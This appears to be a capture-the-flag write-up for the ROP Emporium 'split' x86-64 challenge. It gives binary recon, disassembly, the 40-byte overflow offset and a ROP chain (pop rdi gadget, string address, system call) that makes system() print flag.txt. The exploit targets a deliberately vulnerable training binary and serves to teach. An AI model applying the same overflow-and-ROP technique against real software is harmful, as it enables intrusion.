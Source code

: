 ## Solution

I did the x86-64 version of this challenge which is slightly different than the x86 version. This is beacause of the way parameters are passed into functions. In x86 the parameters are pushed onto the stack whereas in x64 they are passed through registers. This makes the x64 slightly more challegeing but not to much. The hardest part of this challenge was getting the exploit to work in C.

[Link to split challenge](https://ropemporium.com/challenge/split.html)

### Initial Recon

running rabin2 -I shows that the binary has NX enabled but has canaries turned off

```sh
arch     x86
baddr    0x400000
binsz    6805
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

### Exploration

After opening the binary in rizin I looked through the functions: main, pwnme, and usefulFunction. There pictures are as follows

- afl command

```asm
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   sym.__do_global_dtors_aux
0x00400690    1 7            entry.init0
0x004006e8    1 90           sym.pwnme
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400742    1 17           sym.usefulFunction
0x00400560    1 6            sym.imp.system
0x004007d0    1 2            sym.__libc_csu_fini
0x004007d4    1 9            sym._fini
0x00400760    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
```

- main

```asm
┌ int main (int argc, char **argv, char **envp);
│           0x00400697      55             push rbp
│           0x00400698      4889e5         mov rbp, rsp
│           0x0040069b      488b05d60920.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x601078:8]=0
│           0x004006a2      b900000000     mov ecx, 0                  ; size_t size
│           0x004006a7      ba02000000     mov edx, 2                  ; int mode
│           0x004006ac      be00000000     mov esi, 0                  ; char *buf
│           0x004006b1      4889c7         mov rdi, rax                ; FILE*stream
│           0x004006b4      e8e7feffff     call sym.imp.setvbuf        ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
│           0x004006b9      bfe8074000     mov edi, str.split_by_ROP_Emporium ; 0x4007e8 ; "split by ROP Emporium" ; const char *s
│           0x004006be      e88dfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006c3      bffe074000     mov edi, str.x86_64_n       ; 0x4007fe ; "x86_64\n" ; const char *s
│           0x004006c8      e883feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006cd      b800000000     mov eax, 0
│           0x004006d2      e811000000     call sym.pwnme
│           0x004006d7      bf06084000     mov edi, str._nExiting      ; 0x400806 ; "\nExiting" ; const char *s
│           0x004006dc      e86ffeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006e1      b800000000     mov eax, 0
│           0x004006e6      5d             pop rbp
└           0x004006e7      c3             ret
```

- pwnme

```asm
┌ sym.pwnme ();
│           ; var void *buf @ rbp-0x20
│           0x004006e8      55             push rbp
│           0x004006e9      4889e5         mov rbp, rsp
│           0x004006ec      4883ec20       sub rsp, 0x20
│           0x004006f0      488d45e0       lea rax, [buf]
│           0x004006f4      ba20000000     mov edx, 0x20               ; 32 ; size_t n
│           0x004006f9      be00000000     mov esi, 0                  ; int c
│           0x004006fe      4889c7         mov rdi, rax                ; void *s
│           0x00400701      e87afeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
│           0x00400706      bf10084000     mov edi, str.Contriving_a_reason_to_ask_user_for_data... ; 0x400810 ; "Contriving a reason to ask user for data..." ; const char *s
│           0x0040070b      e840feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400710      bf3c084000     mov edi, 0x40083c           ; const char *format
│           0x00400715      b800000000     mov eax, 0
│           0x0040071a      e851feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x0040071f      488d45e0       lea rax, [buf]
│           0x00400723      ba60000000     mov edx, 0x60               ; '`' ; 96 ; size_t nbyte
│           0x00400728      4889c6         mov rsi, rax                ; void *buf
│           0x0040072b      bf00000000     mov edi, 0                  ; int fildes
│           0x00400730      e85bfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x00400735      bf3f084000     mov edi, str.Thank_you_     ; 0x40083f ; "Thank you!" ; const char *s
│           0x0040073a      e811feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040073f      90             nop
│           0x00400740      c9             leave
└           0x00400741      c3             ret
```

- usefulFunction

```asm
┌ sym.usefulFunction ();
│           0x00400742      55             push rbp
│           0x00400743      4889e5         mov rbp, rsp
│           0x00400746      bf4a084000     mov edi, str._bin_ls        ; 0x40084a ; "/bin/ls" ; const char *string
│           0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
│           0x00400750      90             nop
│           0x00400751      5d             pop rbp
└           0x00400752      c3             ret
```

After reading through the disassembly I saw that a buffer of 32 bytes was created. This is the exact same setup as the *ret2win* challenge. The only difference was that the read buffer this time was 96 bytes. This can be seen in the *pwnme()* function shown above. This leaves plenty of room for a ROP chain.

Calculating the offset was the exact same (40 bytes) as before since none of the values changed and the stack was the same. The difference is that this time we have to find addresses to build the ROP chain since the stack isn't executable and we cant't just write shellcode.

### Generating the Exploit

The goal is to get system to cat the *flag.txt*. Currently the only thing that system does is run ls. Running *ii* in r2/rizin shows us that the *'/bin/cat flag.txt'* is still there from the first challenge. So the chain will have to look something like this.

```sh
|=============|() ()|=====================|() ()|============================|
| Some Gadget |  &  | Address of /bin/cat |  &  | Address of call to system()|
|=============|() ()|=====================|() ()|============================|
```
*Bad representation of a chain

All that is left is to find the gadget that makes this all work. In x64 the parameters are passed to the function by use of registers. This means that we can call system with RDI populated with our */bin/cat* string and it should work the same as before. 

> RDI is usually the first register used to pass values into functions on x64. This can vary with different compilers.

This means that we need to find a gadget that allows us to load the address of the */bin/cat* string into rdi and then jump to *system()*. We can find this by using a tool like ROPgadget, ropper, or just use, /R in r2/rizin to find the gadget.

In this case I used,

```sh
/R pop rdi
```

This prints out the opcodes and the address of it. In this case the gadget is at *0x4007c3*. The virtual address of the */bin/cat flag.txt* string is *0x601060*. Finally, the virtual address to the call of system is in the *usefulFunction()* at *0x40074b*. 

This is what the gadget is doing for the exploit.

```asm
                            |____AAAAAAAA___|
                            |____AAAAAAAA___|
                            |____AAAAAAAA___|
                    RIP ->  |____/bin/cat___|  ; pop rdi loads the string's address into RDI
                            |__ret_system()_|           

                            |____AAAAAAAA___|
                            |____AAAAAAAA___|
                            |____AAAAAAAA___|
                            |__pop_/bin/cat_|
                    RIP ->  |__ret_system()_|  ; ret jumps to the address of the call to system()
```

> Technically the stack grows downwards from the return address on x86. It changes based on the architecture

So our chain will look something like, 

> pop rdi; ret -> */bin/cat flag.txt* -> *system()* -> close

### Writing the Exploit

I wrote my exploit in C so that I can get used to doing things the harder way first. Also python won't always be installed on a system.

The main one can be found in *exploit.c*. I had a lot of trouble getting to this to work. I made a python script to try and make sure my logic was right. Im including that also because It does abstract a lot of the details away. This one is the *exploit.py* script.

I tried to see if I could fix the seg fault at the end by seeing if their was some way to get the rop chain to redirect back into the execution flow that it left in *pwnme()*. I couldn't get this to work, so it is left in its current state.

### Flag

The flag prints out with this output from exploit.c

```sh
split by ROP Emporium
x86-64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault
```